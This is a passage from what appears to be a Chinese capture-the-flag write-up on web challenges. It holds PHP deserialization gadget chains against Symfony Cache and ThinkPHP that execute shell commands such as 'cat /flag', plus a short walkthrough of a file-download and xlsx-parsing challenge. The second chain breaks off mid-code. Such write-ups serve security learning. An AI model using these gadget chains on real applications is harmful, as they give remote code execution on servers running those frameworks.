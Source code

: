 ```php
<?php

namespace Symfony\Component\Cache\Adapter;

class TagAwareAdapter{
    public $deferred = array();
    function __construct($x){
        $this->pool = $x;
    }
}

class ProxyAdapter{
    protected $setInnerItem = 'system';
}

namespace Symfony\Component\Cache;

class CacheItem{
    protected $innerItem = 'cat /flag';
}

$a = new \Symfony\Component\Cache\Adapter\TagAwareAdapter(new \Symfony\Component\Cache\Adapter\ProxyAdapter());
$a->deferred = array('aa'=>new \Symfony\Component\Cache\CacheItem);
echo urlencode(serialize($a));

```

## 0x06 [网鼎杯 2020 青龙组]filejava

先是一个文件上传 平平无奇。然后上传后 发现有一个任意文件下载，但是我们不知道网站路径，所以我们现在有两个方法，一个是报错泄露路径，一个是猜。但是经过测试，报错猜到了文件路劲，下载classes文件，反编译，发现了网站对于exec-*.xlsx文件有解析。然后百度到了https://www.jianshu.com/p/73cd11d83c30。按照操作拿下flag。

## 0x07 [安洵杯 2019]iamthinking

parseurl的绕过不用多写了，我们直接看链子。

```php
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = [7];
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think{
    abstract class Model{
        use model\concern\Attribute;
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new Validate,$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
```
